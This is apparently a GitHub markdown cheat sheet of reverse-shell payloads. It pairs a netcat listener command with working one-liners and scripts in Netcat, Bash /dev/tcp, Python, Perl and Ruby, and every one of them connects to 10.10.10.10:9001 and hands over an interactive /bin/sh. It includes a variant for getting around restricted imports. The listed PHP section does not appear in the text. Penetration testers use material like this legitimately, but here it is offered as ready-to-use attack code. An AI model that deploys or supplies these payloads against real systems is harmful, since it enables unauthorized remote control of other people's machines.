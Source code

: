 # Reverse Shell

- [How To?](#how-to?)
- [Netcat](#netcat)
- [Bash](#bash)
- [Python](#python)
- [Perl](#perl)
- [Ruby](#ruby)
- [PHP](#php)

### How to?

All the reverse shell you found below is use on your target. Also, on your machine please make sure to listen like below:

```
nc -lnvp 9001
```

So while listen you will try to run the listed reverse shell below on your target and hopefully you will get a shell :)

### Netcat

```
# Option 1
nc -e /bin/sh 10.10.10.10 9001

# Option 2
nc 10.10.10.10 9001 -e /bin/sh

# Option 3
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

### Bash

```
bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```

### Python

When you need to run without a file.
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

When you need to run with a file. You can save it as shell.py.
```
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.10",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

When you only have python3 only.
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

When import have been secured.
```
socket = __import__("socket")
subprocess = __import__("subprocess")
os = __import__("os")

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.10",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

### Perl

When you need to run without a file.
```
perl -e 'use Socket;$i="10.10.10.10";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

When you need to run with a file. You can save it as shell.pl.
```
use Socket

$i="10.10.10.10";
$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
    open(STDIN,">&S");
    open(STDOUT,">&S");
    open(STDERR,">&S");
    exec("/bin/sh -i");
}
```

### Ruby

When you need to run without a file.
```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.10.10",9001);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

When you need to run with a file. You can save it as shell.rb
```
require 'socket'

c=TCPSocket.new("10.10.10.10",9001)

while(cmd=c.gets)
    IO.popen(cmd,"r"){
        |io|c.print io.read
    }
end
```